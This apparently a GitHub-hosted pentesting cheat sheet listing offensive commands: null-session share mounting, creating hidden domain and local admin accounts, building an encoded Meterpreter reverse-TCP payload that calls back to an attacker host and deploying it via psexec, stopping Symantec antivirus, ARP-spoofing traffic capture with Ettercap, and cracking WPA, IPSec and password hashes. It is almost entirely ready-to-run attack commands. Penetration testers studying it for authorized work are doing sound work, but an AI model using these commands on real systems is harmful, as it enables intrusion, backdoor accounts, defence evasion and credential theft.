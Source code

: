 Pentesting Cheat Sheet
======================
These are various tips and tricks I have found useful on my pentest engagements. Most of these can be found using Google but I decided to put them in a central location to make them easily accessible. Hope they are as helpful to you as they are to me.

Mounting Shares
---------------
To mount an SMB share using a null session do one of the following depending on
the OS you are using.

```Windows> net use x: \\server\share "" /u:
Linux> mount -t cifs //server/share -o username=,password= /mnt/point```

To mount an NFS share on Linux use.

`mount -t nfs server:/share /mnt/point`


Administrative Accounts
-----------------------
Add a new Windows domain admin account.

```net user username password /ADD /DOMAIN
net group "Domain Admins" username /ADD /DOMAIN```

Add a new Windows local admin account.

```net user username password /ADD
net localgroup Administrators username /ADD```

Add a new linux account and put them in the wheel group.
`useradd -G wheel username && echo "username:newpass"|chpasswd`


Meterpreter Shell Error
-----------------------
If you get the error, "stdapi_sys_process_execute: Operation failed: 1314",
while trying to drop to as shell in meterpreter, try the code below. This is
a known bug in meterpreter.

`execute -f cmd.exe -c -i -H`

Metasploit: Custom Psexec Executable
------------------------------------

```# Generate an executable
msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=4445 R | msfencode -t exe -e x86/shikata_ga_nai -c 5 > custom.exe

# Setup multi/handler
msf > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.0.1
LHOST => 192.168.0.1
msf exploit(handler) > set LPORT 4445
LPORT => 4445
[*] Started reverse handler on 192.168.0.1:4445
[*] Starting the payload handler...

# In another msfconsole setup psexec
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set RHOST 192.168.0.2
RHOST => 192.168.0.2
msf exploit(psexec) > set SMBUser user
SMBUser => user
msf exploit(psexec) > set SMBPass pass
SMBPass => pass
msf exploit(psexec) > set EXE::Custom /path/to/custom.exe
EXE::Custom => /path/to/custom.exe
msf exploit(psexec) > exploit

# If everything works then you should see a meterpreter 
# session open in multi/handler
```

Disable Antivirus
-----------------
This command will disable Symantec Endpoint Protection. I find it useful when
I have a basic shell on a box and want to upgrade to Meterpreter but Symantec
stops me.

`c:\program files\symantec\symantec endpoint protection\smc -stop`

Use Ettercap to Sniff Traffic
-----------------------------
`ettercap -M arp -T -q -i interface /spoof_ip/ /target_ips/ -w output_file.pcap`

Cracking WPA/WPA2 PSK
---------------------
Use JtR to generate candidate passwords for aircrack-ng
`john --incremental:all --stdout | aircrack-ng --bssid 00-00-00-00-00-00 -a 2 -w - capture_file.cap`

Use Hashcat to generate candidate passwords for aircrack-ng
`./hashcat-cli32.bin wordlist -r rules/d3ad0ne.rule --stdout | aircrack-ng --bssid 00-00-00-00-00-00 -a 2 -w - capture_file.cap`

Cracking IPSec Agressive Mode Pre-Shared Key
--------------------------------------------
If you’ve never done this, read these first.
http://www.nta-monitor.com/wiki/index.php/Ike-scan_User_Guide
http://carnal0wnage.attackresearch.com/2011/12/aggressive-mode-vpn-ike-scan-psk-crack.html

To find aggressive mode VPNS use ike-scan.
`ike-scan -A 192.168.1.0/24`

If the default transforms don't work use the generate_transforms.sh script from the user guide above.
`generate-transforms.sh | xargs --max-lines=8 ike-scan 10.0.0.0/24`

If you find a SonicWALL VPN using agressive mode it will require a group id, the default group id is GroupVPN
`ike-scan 192.168.1.1 -A -id GroupVPN`

Use the -P argument to save the handshake to a file, which can be used by psk-crack.
`ike-scan 192.168.1.1 -A -Ppsk_192.168.1.1.txt`

Use a dictionary to crack the pre-shared key.
`psk-crack -d /path/to/dictionary psk_192.168.1.1.txt`

Create an IP List with Nmap
---------------------------
nmap -sL -n 192.168.1.1-100,102-254 | grep "report for" | cut -d " " -f 5 > ip_list_192.168.1.txt

Crack Passwords with John and Korelogic Rules
---------------------------------------------
for ruleset in `grep KoreLogicRules john.conf | cut -d: -f 2 | cut -d\] -f 1`; do ./john --rules:${ruleset} 
-w:<wordlist> <password_file> ; done
